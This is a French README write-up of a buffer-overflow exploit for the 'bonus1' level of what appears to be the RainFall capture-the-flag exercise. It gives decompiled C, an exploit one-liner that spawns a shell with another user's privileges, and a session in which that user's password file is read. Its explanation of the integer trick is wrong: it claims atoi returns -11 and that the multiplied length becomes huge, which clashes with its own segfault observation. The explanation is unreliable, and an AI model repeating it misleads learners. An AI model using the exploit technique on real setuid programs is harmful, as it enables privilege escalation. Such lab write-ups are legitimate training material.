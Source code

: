 # Exploitation de bonus1 - Readme détaillé

## Présentation du problème

Le binaire "bonus1" présente une vulnérabilité de dépassement de tampon (buffer overflow) qui peut être exploitée pour obtenir un shell avec des privilèges élevés.

## Analyse du code

```c
int main(int argc, const char **argv)
{
  char dest[40];
  int v5;
  
  v5 = atoi(argv[1]);
  if ( v5 > 9 )
    return 1;
  memcpy(dest, argv[2], 4 * v5);
  if ( v5 == 1464814662 )
    execl("/bin/sh", "sh", 0);
  return 0;
}
```

## Vulnérabilités identifiées

1. Vérification insuffisante de la valeur d'entrée (v5)
2. Utilisation non sécurisée de memcpy() permettant un dépassement de tampon
3. Comparaison directe de v5 avec une valeur spécifique pour l'exécution du shell

## Configuration de sécurité

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

Toutes les protections sont désactivées, facilitant l'exploitation.

## Stratégie d'exploitation

1. Contourner la vérification `if ( v5 > 9 )`
2. Utiliser le dépassement de tampon pour écraser v5
3. Définir v5 à 1464814662 (0x574F4C46) pour déclencher l'exécution du shell

## Exploit

```bash
./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

## Explication détaillée

1. `-2147483637` comme premier argument :
   - Cette valeur est choisie car atoi("-2147483637") retourne -11
   - -11 est inférieur à 9, passant ainsi la vérification initiale

2. Le deuxième argument est construit comme suit :
   - 40 "A" pour remplir le tampon dest
   - "\x46\x4c\x4f\x57" (WOLF en little-endian) pour écraser v5 avec 1464814662

3. Dans memcpy(dest, argv[2], 4 * v5) :
   - 4 * (-11) est interprété comme un grand nombre positif (4294967252) en raison du dépassement d'entier non signé
   - Cela permet d'écrire au-delà de dest et d'écraser v5

## Résultats de l'exploitation

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Observations importantes

1. La tentative avec `4294967285` comme premier argument a échoué car cette valeur est supérieure à 9.
2. L'essai avec `-11` a provoqué une erreur de segmentation, probablement parce que la manipulation de la mémoire n'était pas suffisante pour atteindre et modifier correctement v5.
3. L'exploit final avec `-2147483637` a réussi, permettant d'obtenir un shell avec les privilèges de bonus2.

## Conclusion

Cette exploitation démontre l'importance de :
- Valider rigoureusement les entrées utilisateur
- Utiliser des fonctions sécurisées pour la manipulation de mémoire
- Activer les protections de sécurité du compilateur et du système
